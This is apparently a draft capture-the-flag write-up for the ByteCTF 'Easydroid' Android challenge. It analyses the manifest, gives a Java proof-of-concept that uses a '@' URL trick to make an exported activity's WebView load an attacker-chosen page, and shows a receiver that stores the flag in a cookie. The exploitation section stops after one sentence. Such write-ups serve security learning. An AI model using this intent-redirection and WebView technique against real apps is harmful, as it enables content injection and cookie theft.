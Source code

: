 +++
title = 'ByteCTF - Easydroid'
date = 2024-02-01T01:16:56+03:00
draft = true
tags = ['android', 'ctf', 'bytectf', 'appsec']
+++

> Intent Redirection Insecure Webview

Manifest analysis of the challenge

```xml
    <activity android:name="com.bytectf.easydroid.MainActivity" android:exported="true">
        <intent-filter>
            <action android:name="android.intent.action.MAIN"/>
            <category android:name="android.intent.category.LAUNCHER"/>
        </intent-filter>
    </activity>
    <activity android:name="com.bytectf.easydroid.TestActivity" android:exported="false"/>
    <receiver android:name="com.bytectf.easydroid.FlagReceiver" android:exported="false">
        <intent-filter>
            <action android:name="com.bytectf.SET_FLAG"/>
        </intent-filter>
    </receiver>
```

From the manifest file, we have two Activities and Receiver component

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Uri dataUri = Uri.parse("http://toutiao.com@thuri.dev");
        Intent intent = new Intent();
        intent.setClassName("com.bytectf.easydroid", "com.bytectf.easydroid.MainActivity");
        intent.setData(dataUri);
        startActivity(intent);

    }
}
```

Running the above `POC`, proves we are able to Load arbitrary URl files.

![Run arbitary url](easydroid/poc-1.png)

Next is figuring out how to trigger the `receiver component`

Analyze the `FlagReceiver` activity

```java
public class FlagReceiver extends BroadcastReceiver {
    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        String flag = intent.getStringExtra("flag");
        if (flag != null) {
            try {
                String flag2 = Base64.encodeToString(flag.getBytes("UTF-8"), 0);
                CookieManager cookieManager = CookieManager.getInstance();
                cookieManager.setCookie("https://tiktok.com/", "flag=" + flag2);
                Log.e("FlagReceiver", "received flag.");
            } catch (UnsupportedEncodingException e) {
                e.printStackTrace();
            }
        }
    }
}
```

## Exploitation

This is a strategy to exploit the vulnerability and get the flag

